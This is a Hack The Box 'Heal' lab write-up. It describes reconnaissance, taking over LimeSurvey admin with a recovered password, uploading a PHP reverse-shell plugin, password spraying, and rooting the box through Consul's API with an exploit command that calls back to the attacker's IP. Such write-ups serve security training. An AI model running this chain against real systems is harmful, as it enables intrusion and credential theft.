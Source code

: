 ```yaml
---
title: Heal - HTB
date: 2025-04-26 14:00:00 +0200
categories: [Hack The Box, Linux0]
tags: [Linux , priv-escalation , rooted , heal]
toc: true
comments: true
image: ./assets/img/attachments/heal-1.png
imageNameKey: heal
---
```

Hey folks, Its me again with a new writeup, this is 3/1000 the journey is bit long but we are up
# Recon
**First thing, as usual, is to perform scanning.**  
I did a quick scan first (since a full scan consumes more time).  
We will work with what we find from the quick scan.
```bash
 nmap 10.10.11.46 -F -Pn -T5
```
![w](/assets/img/attachments/heal-2.png)

I couldn't open the webpage because the IP address wasn't resolved. 
```bash
─$ nslookup 10.10.11.46                            
** server can't find 46.11.10.10.in-addr.arpa: NXDOMAIN

```
 So i run nmap scan on port 80
 ```bash
 $ nmap 10.10.11.46 -sC -sV -p80          
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-26 13:28 EDT
Nmap scan report for 10.10.11.46
Host is up (0.43s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://heal.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.22 seconds

```
From here I got the domain name http://heal.htb/, lets add it to /etc/hosts

![w](/assets/img/attachments/heal-3.png)

This is how the webpage looked. I tried to register but got an error saying "something went wrong," so I performed content discovery to find hidden directories.
```bash
ffuf -u http://heal.htb/FUZZ -w /usr/share/wordlists/SecLists-master/Discovery/Web-Content/directory-list-2.3-medium.txt -recursion -recursion-depth 2

dirb http://heal.htb

```
Both attempts returned nothing, and the website responded with a 503 error. I went back to the main page and tried to register again but still couldn’t. At this point, I fired up Burp Suite to start analyzing the requests I was sending — maybe I could spot an injection point.

![w](/assets/img/attachments/heal-4.png)

I think that's why i couldn't register or login with default credentials, or even test for SQLi.
After adding this subdomain to /etc/hosts. I signed up.
# Initial Access
I tried command injection at input fields, but didnt work, BUT survey button directed us to this subdomain:

![w](/assets/img/attachments/heal-7.png)

which is LimeSurvey service, I couldn't get the exact version of the used service. but from the printed message we knew the administrator username **ralph**.

![w](/assets/img/attachments/heal-15.png)
Found exploit, but i don't have password for any account, and default credentials didn't work. Nothing else to do here.
Going back to burp requests:

![w](/assets/img/attachments/heal-8.png)
![w](/assets/img/attachments/heal-9.png)

Couldn't find interesting files, But at api.heal.htb found out page was written with ruby
![w](/assets/img/attachments/heal-10.png)

![w](/assets/img/attachments/heal-11.png)

Lets check those:

![w](/assets/img/attachments/heal-12.png)

Here we found ralph hashed password

![w](/assets/img/attachments/heal-13.png)
 
 Got the password, didn't work for ssh but worked for lime survey, Going back to the found exploit
 ![w](/assets/img/attachments/heal-16.png)
```bash
zip access.zip exploit.py config.xml php-rev.php 
```
![w](/assets/img/attachments/heal-17.png)

![w](/assets/img/attachments/heal-18.png)

Setting listener, then open http://take-survey.heal.htb/upload/plugins/Y1LD1R1M/php-rev.php 
![w](/assets/img/attachments/heal-19.png)
![w](/assets/img/attachments/heal-23.png)
![w](/assets/img/attachments/heal-22.png)
i used this command to find config directory
```bash
find / -type d -name "config" 2>/dev/null

```
In config.php

![w](/assets/img/attachments/heal-24.png)
Did password spraying, and it worked with ron

![w](/assets/img/attachments/heal-25.png)
![w](/assets/img/attachments/heal-26.png)
# Privilege Escalation
After running linpeas 
![w](/assets/img/attachments/heal-27.png)
port 3000 and 3001 are running the same webpage 
![w](/assets/img/attachments/heal-28.png)

port 8300 didn't accept our connection while 8500 did.

![w](/assets/img/attachments/heal-29.png)

did curl to see what's version is running
```bash
curl http://127.0.0.1:8500/ui/
```
![w](/assets/img/attachments/heal-30.png)
![w](/assets/img/attachments/heal-31.png)

There is exploit for this version.

![w](/assets/img/attachments/heal-34.png)

Means no need for token parameter in this exploit

```bash
python3 exploit.py 127.0.0.1 8500 10.10.16.53 4444 ""
```
![w](/assets/img/attachments/heal-32.png)

![w](/assets/img/attachments/heal-33.png)
And Rooted!
In conclusion, exploiting Consul's unprotected API on port 8500 allowed root access through a malicious service registration, emphasizing the necessity of strict ACL enforcement and vigilant system monitoring to thwart privilege escalation.
Catch you later!
